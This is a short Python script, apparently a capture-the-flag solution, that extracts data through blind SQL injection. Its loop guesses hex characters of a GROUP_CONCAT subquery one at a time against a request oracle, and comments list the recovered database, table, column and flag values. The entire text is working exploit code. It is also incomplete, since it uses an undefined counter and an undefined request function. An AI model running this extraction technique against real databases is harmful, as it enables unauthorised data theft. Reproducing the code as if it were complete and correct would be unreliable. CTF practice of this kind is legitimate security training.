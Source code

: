 ```python


#database information_schema,test,mysql,ctftraining,performance_schema,F4l9_D4t4B45e,ctf
#table  F4l9_t4b1e
#column F4l9_C01uMn
#flag flag{G1zj1n_W4nt5_4_91r_Fr1end},flag{03a6ead5-ffec-4bc0-bffd-92efd5a81e11}
sql="(substr(hex((select GROUP_CONCAT(F4l9_C01uMn) from F4l9_D4t4B45e.F4l9_t4b1e )),INDEX,1))='GUESS'"
result="696e666f726d6174696f6e5f736368656d612c746573742c6d7973716c2c637466747261696e696e672c706572666F726D616E63655F736368656D612c46346c395"
result="666c61677b47317a6a316e5f57346e74355f345f393172115"
index=len(result)

while True:
    index+=1
    for i in range(16):
        ii+=1
        tmp=sql.replace("INDEX",str(index)).replace("GUESS",hex(i)[2:])
        
        if curl_url(tmp):
            result+=hex(i)[2:]
            print(result)
            break
        print("第"+str(index)+"不是"+hex(i)[2:])
```

